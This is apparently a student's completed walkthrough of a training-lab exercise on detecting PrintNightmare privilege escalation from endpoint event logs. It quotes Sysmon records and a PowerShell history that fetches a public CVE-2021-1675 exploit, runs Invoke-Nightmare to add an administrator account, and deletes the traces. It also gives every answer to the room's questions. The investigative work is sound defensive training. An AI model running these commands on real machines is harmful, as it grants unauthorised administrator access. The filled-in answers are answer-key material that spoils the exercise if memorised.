 ```yaml
---
Search the artifacts on the endpoint to determine if the employee used any of the Windows Printer Spooler vulnerabilities to elevate their privileges. 
---
```


### Detection 

![|333](https://i.ibb.co/ryX9w7H/businessmen-in-the-work-office-meeting-on-global-planning-and-marketing-research-vector-illustration.jpg)


Scenario: In the weekly internal security meeting it was reported that an employee overheard two co-workers discussing the PrintNightmare exploit and how they can use it to elevate their privileges on their local computers.

Task: Inspect the artifacts on the endpoint to detect the exploit they used.

Note: Use the FullEventLogView tool. Go to Options > Advanced Options and set Show events from all times. 

If you need a refresher on PrintNightmare, see our previous PrintNightmare room! 

```
using fulleventlogview 
Go to Options > Advanced Options and set Show events from all times
and filter with event id like 316,808,811,31017,7031,3,11

use find and search for zip

File created:
RuleName: Downloads
UtcTime: 2021-08-27 09:52:07.311
ProcessGuid: {a19e3d6a-b595-6128-0901-000000000d00}
ProcessId: 2124
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
TargetFilename: C:\Users\bmurphy\Downloads\levelup.zip
CreationUtcTime: 2021-08-27 09:52:07.311

File created:
RuleName: Downloads
UtcTime: 2021-08-27 09:52:27.520
ProcessGuid: {a19e3d6a-b595-6128-0901-000000000d00}
ProcessId: 2124
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
TargetFilename: C:\Users\bmurphy\Downloads\CVE-2021-1675-main\CVE-2021-1675.ps1
CreationUtcTime: 2021-08-27 09:52:27.520

File created:
RuleName: DLL
UtcTime: 2021-08-27 09:53:38.066
ProcessGuid: {a19e3d6a-b595-6128-0901-000000000d00}
ProcessId: 2124
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
TargetFilename: C:\Users\bmurphy\AppData\Local\Temp\3\nightmare.dll
CreationUtcTime: 2021-08-27 09:53:38.066

File created:
RuleName: DLL
UtcTime: 2021-08-27 09:53:38.566
ProcessGuid: {a19e3d6a-aea6-6128-3600-000000000d00}
ProcessId: 2600
Image: C:\Windows\System32\spoolsv.exe
TargetFilename: C:\Windows\System32\spool\drivers\x64\3\New\nightmare.dll
CreationUtcTime: 2021-08-27 09:53:38.566

Process '\Device\HarddiskVolume2\Windows\System32\spoolsv.exe' (PID 2600) would have been blocked from loading the non-Microsoft-signed binary '\Windows\System32\spool\drivers\x64\3\nightmare.dll'.

show all event views to see primary registry path .. find HKLM

event id 13
quick filter HKLM
or THMPrinter

Registry value set:
RuleName: InvDB-DriverVer
EventType: SetValue
UtcTime: 2021-08-27 09:53:38.581
ProcessGuid: {a19e3d6a-aea6-6128-3600-000000000d00}
ProcessId: 2600
Image: C:\Windows\System32\spoolsv.exe
TargetObject: HKLM\System\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\THMPrinter\DriverVersion
Details: 0.0.0.0

find history powershell

%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

$LocalTempDir = $env:TEMP; $ChromeInstaller = "ChromeInstaller.exe"; (new-object    System.Net.WebClient).DownloadFile('http://dl.google.com/chrome/install/375.126/chrome_installer.exe', "$LocalTempDir\$ChromeInstaller"); & "$LocalTempDir\$ChromeInstaller" /silent /install; $Process2Monitor =  "ChromeInstaller"; Do { $ProcessesFound = Get-Process | ?{$Process2Monitor -contains $_.Name} | Select-Object -ExpandProperty Name; If ($ProcessesFound) { "Still running: $($ProcessesFound -join ', ')" | Write-Host; Start-Sleep -Seconds 2 } else { rm "$LocalTempDir\$ChromeInstaller" -ErrorAction SilentlyContinue -Verbose } } Until (!$ProcessesFound)
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1'))
choco install graphviz

maybe was deleted so using procdot

no it wasn't i was looking in admin powershell history

C:\Users\bmurphy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

cd .\Downloads\
wget https://github.com/calebstewart/CVE-2021-1675/archive/refs/heads/main.zip -UseBasicParsing -OutFile levelup.zip
Expand-Archive .\levelup.zip -DestinationPath .
cd .\CVE-2021-1675-main\
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "backup" -NewPassword "ucGGDMyFHkqMRWwHtQ" -DriverName "THMPrinter"
net localgroup administrators
cd ..
rmdir .\CVE-2021-1675-main\
dir
del .\levelup.zip
dir
exit
```

![[Pasted image 20221116111714.png]]

![[Pasted image 20221116112052.png]]

The user downloaded a zip file. What was the zip file saved as?
 You can try using ProcDOT or FullEventLogView
*levelup.zip*


What is the full path to the exploit the user executed?
		
		*C:\Users\bmurphy\Downloads\CVE-2021-1675-main\CVE-2021-1675.ps1*

What was the temp location the malicious DLL was saved to? 
	
	*C:\Users\bmurphy\AppData\Local\Temp\3\nightmare.dll*

What was the full location the DLL loads from?
	
	*C:\Windows\System32\spool\drivers\x64\3\New\nightmare.dll*

What is the primary registry path associated with this attack?
	
	*HKLM\System\CurrentControlSet\Control\Print\Environments\Windows x64\Drivers\Version-3\THMPrinter\DriverVersion*

What was the PID for the process that would have been blocked from loading a non-Microsoft-signed binary?
Microsoft-Windows-Security-Mitigations
*2600*


What is the username of the newly created local administrator account?
*backup*

What is the password for this user?
Use ProcDOT to search for PowerShell History File
*ucGGDMyFHkqMRWwHtQ*


What two commands did the user execute to cover their tracks? (no space after the comma)
		
		*rmdir .\CVE-2021-1675-main\,del .\levelup.zip*


[[PrintNightmare]]